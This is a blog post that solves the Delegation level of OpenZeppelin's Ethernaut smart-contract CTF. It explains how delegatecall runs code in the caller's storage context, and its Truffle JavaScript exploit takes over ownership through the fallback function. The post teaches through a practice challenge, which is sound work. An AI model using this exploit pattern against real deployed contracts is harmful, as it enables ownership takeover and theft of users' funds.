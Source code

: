 Title: Solving OpenZeppelin's Ethernaut CTF - Delegation
Date: 2018-08-05
Tags: ethereum, solidity, ctf, smart contracts
Slug: delegation-challenge-solution
Summary: Post #7 of a series in which we tackle the challenges in the [Ethernaut CTF by OpenZeppelin](https://ethernaut.openzeppelin.com/){:target="_blank",:rel="noopener"}. In Delegation, we study how to exploit a trustful contract that uses a not-so-safe low-level call.

## Introduction
If you haven't realized by now, let me tell you something, Solidity's low-level calls are definitely not your best friends. I'm talking about `call`, `callcode` and `delegatecall`. They can be deceiving, as we've already seen in [Fallback]({filename}fallback.md). That's the reason why many static analyzers will raise an alarm whenever any of them is found. I'm not saying you shouldn't use them - they exist for a reason - but, beware.

Now go take a look at the [Delegation challenge](https://ethernaut.openzeppelin.com/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59){:target="_blank",:rel="noopener"} and come back once you're done.

In a nutshell, we're are given an instance of the Delegation contract over which we should claim ownership. As you may have seen, the contract only has one function that we can interact with, which happens to be its fallback function. Quite a narrow scope there - so it all comes down to this line: `delegate.delegatecall(msg.data)`, the vuln must be there. Let's see what `delegatecall` does.

## In delegatecall we trust
Sadly, in this case.

First of all, `delegatecall` is just another type of message that smart contracts can send to each other - with some peculiarities, but a message at the end of the day. According to the [Solidity docs on delegatecall](https://solidity.readthedocs.io/en/v0.4.24/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries):

> [...] is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` do not change their values.

Yeap, chinese is easier, I know. Let's put this straight.

Imagine two happy friends: Alan and Bob. Alan is the laziest guy ever, he does not even bother to do anything himself, 'cause why do something when someone else can do it for you, right ? So whenever he needs to do the cleaning at home, he calls his super trustworthy BFF, Bob. Alan happens to be super trustful of Bob, I mean, like hell. So he not only let's Bob do the work, but also gives Bob all the keys to his house. All of them, even the safe-deposit box key. 

The thing is, Bob ain't no saint either. He gained Alan's **trust**, and now can do whatever he pleases with Alan's belongings. He can move around anything in Alan's house, even those things that were to be kept private.

Now imagine Alan and Bob are not humans, but smart contracts. We'll call them A and B for short. Whenever A calls delegatecall on B (B.delegatecall(...)) he's letting B proccess the whole call. B has now access to A's storage and can modify it freely. For instance, in the Delegation challenge, B (Delegate) could potentially change the owner of A (Delegation). How can we achieve that ?

## In delegate call we shouldn't have trust
Check Delegate's code. In particular, this function:

~~~solidity
function pwn() public {
        owner = msg.sender;
}
~~~

Whoever calls that `pwn` function, automatically becomes the owner of the contract. Now what if we called it through `delegatecall` ? As we read in the docs: `msg.sender` does not changes its original value, and the call would be executed **in the caller's context**. Which means that, to pass the challenge, we need to call Delegate's `pwn` function through the `delegatecall` in the Delegation contract. That way, the owner of Delegation would be changed to the sender who sent the initial call to Delegate.

Enough talk. Let's do it.

## Exploiting an unsafe delegatecall
Include both Delegate.sol and Delegation.sol in your `contracts` folder. Then write the deployment scripts as follows and run `npx truffle migrate`:

~~~javascript
let Delegate = artifacts.require('./Delegate.sol')
let Delegation = artifacts.require('./Delegation.sol')

module.exports = deployer => {
    // We first deploy Delegate to obtain its address
    deployer.deploy(Delegate, web3.eth.accounts[0]).then(() => {
        // Once Delegate is deployed, pass its address to the Delegation contract constructor
        return deployer.deploy(Delegation, Delegate.address)
    })
}
~~~

For the exploit, create a new file in your `exploits` folder called `delegation.exploit.js`. Set it up following the same structure we used for previous exploits.

~~~javascript
const DelegationContract = artifacts.require('Delegation')
const assert = require('assert')

async function execute(callback) {

    // Instance the Delegation contract
    let delegationContract = await DelegationContract.deployed()
    
    // Get the attacker account
    let attackerAccount = web3.eth.accounts[1]
    console.log(`Attacker address: ${attackerAccount}`)

    // Check who's the owner of the Delegation contract
    let owner = await delegationContract.owner.call()
    console.log(`Initial owner: ${owner}`)
    
    // Actual exploit will be here

    callback()
}
~~~

Next step: calling the fallback function of Delegation. In previous posts we saw that in order to execute a contract's fallback function code, all we need to do is send a transaction to the contract. However, this will be a special case.

All Ethereum transactions include a `data` field, in which we can include a payload we want to send to a contract. For instance, a contract's function signature and parameters that we wish to call. By inspecting Delegation's code, you can see that everything inside the `data` field is be passed to the Delegate contract and executed by it. Thus, we will call the `pwn` function, but first we'll need to encode it the Ethereum way.

To do so, we need to hash the prototype string of the function like functionName(type1,type2,...) with Keccak256, and then take only the first 4 bytes. That is why you will often see something like `bytes4(keccak256(...))` in Solidity code. Yet, we're writting Javascript here, not Solidity, and we can take advantage of `web3` utility functions.

The final part of the exploit looks like:

~~~javascript
await delegationContract.sendTransaction({
        from: attackerAccount,
        data: encodeFunctionSignature('pwn()')
})

// Check who's the owner of the Delegation contract
owner = await delegationContract.owner.call()
assert.equal(owner, attackerAccount)
console.log(`Final owner: ${owner}`)
~~~

And the `encodeFunctionSignature` function goes like this:

~~~javascript
function encodeFunctionSignature(functionName) {
    return web3.eth.abi.encodeFunctionSignature('pwn()')
}
~~~

You can check what that `web3` function is actually doing in here: [https://github.com/ethereum/web3.js/blob/1.0/packages/web3-eth-abi/src/index.js#L199](https://github.com/ethereum/web3.js/blob/1.0/packages/web3-eth-abi/src/index.js#L199){:rel="noopener"}


All set! You can now call `npx truffle exec exploits/delegation.exploit.js`, pwn the Delegation contract, and finally become its owner!

Find the full exploit code at [https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/delegation.exploit.js](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/delegation.exploit.js){:rel="noopener"}.

That's it, another challenged solved. In the next post, we'll tackle [Force](https://ethernaut.openzeppelin.com/level/0x24d661beb31b85a7d775272d7841f80e662c283b){:rel="noopener"} and, spoiler alert, learn how to press a hidden self-destruct button that all smart contracts have.
